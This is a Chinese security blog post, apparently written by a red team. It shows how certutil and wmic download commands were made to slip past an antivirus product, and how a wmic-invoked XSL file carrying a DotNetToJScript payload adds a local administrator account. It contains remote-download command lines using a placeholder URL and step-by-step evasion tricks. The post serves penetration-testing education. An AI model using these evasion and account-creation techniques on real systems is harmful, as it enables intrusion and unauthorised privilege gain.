 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/LGe3SuCGiNMHNbfN6oTApw)

这是 **酒仙桥六号部队** 的第 **122** 篇文章。

全文共计 2205 个字，预计阅读时长 7 分钟。

**背景**

在一次授权的渗透测试中，由于使用客户提供的机器进行测试操作，一开始通过弱口令的爆破 + 上传文件拿到 shell，但是由于客户要求点到为止就没有深入进行，但是发现了安全软件为某杀软，突然心血来潮想要执行远程下载文件还是受到了拦截，以下是对遇到的场景后期搭建环境进行实现的一些小拓展，仅供参考~~~

**正文**

安装某杀软并更新至最新版本，并检查防护中心为全开启的状态，随后在 cmd 命令行下使用 certutil 时候，发生如下拦截：

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPt2m4l50Sz2c5ibhWYh1RBbAqdduB1bPCicaaGZ4TcP4Ugo3icrJoOuo6Xw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPt4C4coHCmSq33ZWbFRnRichfoiahAYVAqsvvNic660dQlyz3aqCmNPeHKQ/640?wx_fmt=png)

在尝试了一些变形之后下之后发现了如下可以绕过的语句。

发现使用 & 和 | 也可以顺利绕过并下载。当然后续要想实现上线需要对该 exe 做免杀处理，这里只是分享绕过下载的方式，相信免杀的绕过对于各位大佬来说也不是什么难事~~~

```
Certutil & Certutil –urlcache –f –split url

Certutil | Certutil –urlcache –f –split url
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPt42QVjU0DdlaN9j8UMwO9ekh2V3jL5xL4XcaflTkia6v2UWia2rEWg4wQ/640?wx_fmt=png)

经过后续的测试发现也可以先执行一次 certutil 再执行原始的下载语句即可绕过，便可以看到 2.exe 已经被下载。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtmWvtTnafe36eIuByBP4xibH15ElaOqfBCA5vLtF0tUvTU24Vbl9EHhg/640?wx_fmt=png)

其实想想使用的符号 & 和 |，本质都是执行了 2 次 certutil~

Wmic 方式可以看到一开始也是被拦截，如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtibIsaPGaeuiaEOf6XMyQyYicVwN79lcCOibADYUrZ2TMXMmOaFfv7Vf2aA/640?wx_fmt=png)

在后续的测试变形中发现先执行 wmic os，然后执行正常的命令即可绕过，如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPto6myql6Z8ibDSAHCEgibXreyKoSgniaia0rQMic2A5X1qAnRW8vwJRtyTtw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtWWxyibXqAR36lFsByaStyR19Ep2sCibwxUDfTFicrA3cezOxmKkETabPw/640?wx_fmt=png)

对于 wmic 的绕过也可以先执行 wmic 然后 exit 退出，然后继续执行原始的下载命令即可，当然 wmic 也有其他方式可以进行绕过这里不展开介绍。

**小扩展**

下面介绍一个小的利用方式添加用户，其余白名单执行和利用方式可以自行研究~。这种调用的方式最早应该是由 Casey Smith@subTee 大佬分享一个技巧，利用 wmic 从本地或者远程调用 xsl 的方式来执行携带有 payload 的 xsl 文件。

首先 net user 查看用户只有 2 个用户如下：

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtiaTdsVjNTTx5LPnoKbVDicT7OGrGPmaDsoWw4WweKS6Uia8fuiaQY4D0IQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtST5iaibgpGoWSycgd8fapxl5F0TQkTDib5yEMheibZjpxKfOnAtVk4xicug/640?wx_fmt=png)

首先执行 wmic os。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPt9UqvL7WuxHpRoQFxBLdjhTibtUXjR3BibnAPXP0pGOTWqCibz1Pmib3DKA/640?wx_fmt=png)

然后再次执行 wmic os get 下载命令即可成功添加，此时未有拦截，如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPt6GxFDKyyNuc9APhMbNIrn3tnwZ4rLibbpeQuMPFzZDKD1JnoMyQtkBQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtvV2w4JaZLyGWVNAiaBrWKPpBLcbTichlAwU5WicQL8SYwicHJvmnRwN6Bw/640?wx_fmt=png)

当然，添加用户到到管理员组需要管理员权限，所以我在这里用了本地的管理员进行的执行，脚本主要是调用了 windows 的 2 个 api 函数进行创建用户和添加管理员组，分别为：

```
NetUserAdd //添加用户

NetLocalGroupAddMembers //添加用户到管理员
```

可能有人会问到 xsl 文件怎么执行的添加用户到管理员，因为这个整个流程是先将添加用户的 c# 脚本先转化为 dll 文件，然后使用 DotNetToJScript 将该 dll 文件转为为 js，最后将转化为的 js 文件放在要落地执行的 xsl 文件里面。对于 c# 语言或者 c++ 语言调用 windows api 添加用户至管理员组网上已经有很多代码，拿过来改改就行。然后使用 Visual Studio 的开发者工具将 c# 文件转化为 dll 文件。

语法：csc /target:library /out: 输出文件 待转化的 c# 文件

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtZtCE1cTfoia6hTd2kSdDlAPxrA9UmSXMbHvmuIPhjFQOsw8qh8m0iaoQ/640?wx_fmt=png)

然后使用 DotNetToJScript 将文件转化为 js 脚本文件（DotNetToJScript 这个工具是由 17 年 James Forshaw 开源了一个工具 DotNetToJScript，能够利用 JS、Vbs 等脚本加载. Net 程序。）转化语法也比较简单。如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPt1N3cZ1IESOC07zyzPwjcC0oqhWvjibKTHfqmFnNxGgCTGwQty7XfTzQ/640?wx_fmt=png)

可以看出直接 DotNetToJScript –o 待输出 js 文件 待转化文件。（但是该工具不能够绕过 windwos 的 amsi 检测机制，如果要想绕过该防护可以使用另外一个工具 GadgetToJScript(https://github.com/med0x2e/GadgetToJScript）

来看下 DotNetToJScript 工具转化后的 js 文件如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtqCTwKs00nOsu5Sv0kuw39hia09sB2kz4QGdXWZlNYgiaBmia4vPsIFgSw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtmYGOLstBbiaNLNwyBcbSxGTmwHncYCdicwWb3ibiaYXFmJwj9XG4phfjbQ/640?wx_fmt=png)

处理流程大概是就是 js 通过调用一些 windwos api 的函数来对前面 base64 编码过后的代码进行解码，然后解码过后进行反序列化操作，因为工具是先序列化然后再 base64 编码。最后把文件写入 xsl 文件定义为 Jscript 语言，借助. net 环境来实现代码功能。绕过之后貌似不再拦截原始的下载命令，但是需要退出该杀软才可以再次拦截原始的 certutil 或者 wmic 命令，（有的时候即使退出再重新开启也不会拦截）即使再次进入拦截，通过上述方法继续可以执行下载。

对于调用 windows api 绕过部分杀软添加管理员也是老生常谈了，也可以修改为接收参数的方式进行，把写好的文件编译为 exe 即可使用，相信聪明的你应该知道怎么做了~~~

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtGGtJR8vUbv78a2MzrjcgNnTbwltfG1zabSib8odiaBNrvCed0w79ovwQ/640?wx_fmt=png)

绕过并添加到管理员组：

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPtrzyC5UQ4uWG2EZ37yMjELNsOvTsuMSUWhcLqN7kicHCwxhPj0icI9Mbw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s56ggUgnU228CicSl8ibyqkWPteoTYK3fFDL4vXrkh8aYUDTdGHqia77jlzypfiblD5XTIWuSMuXfibl0Ig/640?wx_fmt=png)

**总结**

遇到杀软不要害怕，要对当前的利用场景进行分析，有条件的可以搭建环境测试一下，结合之前前辈们提出的利用方式进行思维发散，总之站在巨人的肩膀上还是有不少收获的。

#### 参考文章：

```
[https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8wmic%E8%B0%83%E7%94%A8xsl%E6%96%87%E4%BB%B6%E7%9A%84%E5%88%86%E6%9E%90%E4%B8%8E%E5%88%A9%E7%94%A8/](https://3gstudent.github.io/3gstudent.github.io/利用wmic调用xsl文件的分析与利用/)

https://www.cnblogs.com/zpchcbd/p/11915654.html
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCib3tHSia4iaVNVeRfP12IWicjQwfVekvflKEC9XqUJGK8r6TMhcYd3GFw0g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCibiaRBNn0A5YI88OyFjU8fn2Isf9bat4vQn18NwG6cXxVOSuKiapNm2nibQ/640?wx_fmt=png)